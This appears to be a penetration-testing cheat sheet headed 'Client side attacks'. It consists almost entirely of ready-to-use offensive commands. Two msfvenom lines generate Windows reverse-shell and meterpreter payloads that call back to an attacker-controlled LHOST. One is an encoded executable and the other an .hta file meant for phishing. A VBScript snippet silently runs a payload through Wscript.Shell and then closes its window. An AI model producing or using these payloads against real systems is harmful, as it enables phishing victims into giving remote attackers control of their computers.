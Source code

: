 # Client side attacks

## Basic windows executable

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST= LPORT=8990 -e x86/shikata_ga_nai -f exe -o out.exe
```

## .hta phishing

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=LHOST LPORT=LPORT -f hta-psh -o document.hta
```

```vbscript
<script language="VBScript">
  Function Update()
    Dim yz
    Set yz = CreateObject("Wscript.Shell")
    yz.run "PAYLOAD"
    Set yz = Nothing
  End Function
  
  Update
  self.close
</script>
```
